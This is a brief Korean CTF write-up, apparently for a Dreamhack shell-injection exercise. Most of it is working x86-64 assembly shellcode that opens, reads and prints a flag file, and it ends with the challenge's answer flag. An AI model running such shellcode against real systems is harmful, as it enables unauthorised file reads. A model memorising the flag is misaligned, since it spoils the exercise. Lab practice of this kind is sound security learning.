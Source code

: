 # 실습

**/home/shell_basic/flag_name_is_loooooong 경로로 셀 코드를 작성해서**

서버로 보내면 되는 문제이다

이전에 `orw.c`로 `/home/alex0/pwnable/flag` 를 8바이트식 끊어서 보내봤으므로

그거와 똑같이 짜주면 된다

![image](https://github.com/user-attachments/assets/398c3039-a080-441f-8a63-f73b01bde90b)

**readflag.asm**

```nasm
section .text
global _start
_start:
    mov rax, 0x00
    push rax
    mov rax, 0x676E6F6F6F6F6F6F
    push rax
    mov rax, 0x6C5F73695F656D61
    push rax
    mov rax, 0x6E5F67616C662F63
    push rax
    mov rax, 0x697361625F6C6C65
    push rax
    mov rax, 0x68732F656D6F682F
    push rax

    mov rdi, rsp
    xor rsi, rsi   
    xor rdx, rdx
    mov rax, 2
    syscall 

    mov rdi, rax     
    mov rsi, rsp
    sub rsi, 0x30    
    mov rdx, 0x30  
    mov rax, 0x0    
    syscall      

    mov rdi, 1   
    mov rax, 0x1   
    syscall
   
```

이 파일을 아래 명령어를 통해 서버로 보내면

셀 코드를 얻을 수 있다
![image (8)](https://github.com/user-attachments/assets/dddf0a24-6f83-4834-8b4d-275a8d7cf6cb)


**정답 : DH{ca562d7cf1db6c55cb11c4ec350a3c0b}**
